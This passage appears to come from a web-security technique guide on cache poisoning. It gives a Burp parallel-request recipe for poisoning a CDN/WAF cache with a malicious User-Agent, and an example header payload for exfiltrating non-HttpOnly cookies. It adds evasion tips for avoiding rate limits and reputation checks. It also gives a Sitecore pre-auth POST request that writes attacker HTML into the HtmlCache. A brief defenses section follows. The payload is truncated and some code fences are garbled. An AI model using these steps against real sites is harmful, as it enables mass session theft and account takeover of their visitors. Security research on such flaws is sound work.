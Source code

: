 Practical recipe (observed across a popular CDN/WAF):

1) From a clean IP (avoid prior reputation-based downgrades), set a malicious `User-Agent` via browser or Burp Proxy Match & Replace.
2) In Burp Repeater, prepare a group of two requests and use "Send group in parallel" (single-packet mode works best):
   - First request: GET a `.js` resource path on the same origin while sending your malicious `User-Agent`.
   - Immediately after: GET the main page (`/`).
3) The CDN/WAF routing race plus the auto-cached `.js` often seeds a poisoned cached HTML variant that is then served to other visitors sharing the same cache key conditions (e.g., same `Vary` dimensions like `User-Agent`).

Example header payload (to exfiltrate non-HttpOnly cookies):

```
User-Agent: Mo00ozilla/5.0</script>"
```
```
Operational tips:

- Many CDNs hide cache headers; poisoning may appear only on multi-hour refresh cycles. Use multiple vantage IPs and throttle to avoid rate-limit or reputation triggers.
- Using an IP from the CDN's own cloud sometimes improves routing consistency.
- If a strict CSP is present, this still works if the reflection executes in main HTML context and CSP allows inline execution or is bypassed by context.

Impact:

- If session cookies aren’t `HttpOnly`, zero-click ATO is possible by mass-exfiltrating `document.cookie` from all users who are served the poisoned HTML.

Defenses:

- Stop reflecting request headers into HTML; strictly context-encode if unavoidable. Align CDN and origin cache policies and avoid varying on untrusted headers.
- Ensure WAF applies content inspection consistently to `.js` requests and static paths.
- Set `HttpOnly` (and `Secure`, `SameSite`) on session cookies.

### Sitecore pre‑auth HTML cache poisoning (unsafe XAML Ajax reflection)

A Sitecore‑specific pattern enables unauthenticated writes to the HtmlCache by abusing pre‑auth XAML handlers and AjaxScriptManager reflection. When the `Sitecore.Shell.Xaml.WebControl` handler is reached, an `xmlcontrol:GlobalHeader` (derived from `Sitecore.Web.UI.WebControl`) is available and the following reflective call is allowed:

```
POST /-/xaml/Sitecore.Shell.Xaml.WebControl
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=AddToCache("key","…payload…")&__SOURCE=ctl00_ctl00_ctl05_ctl03&__ISEVENT=1
```
```
This writes arbitrary HTML under an attacker‑chosen cache key, enabling precise poisoning once cache keys are known.
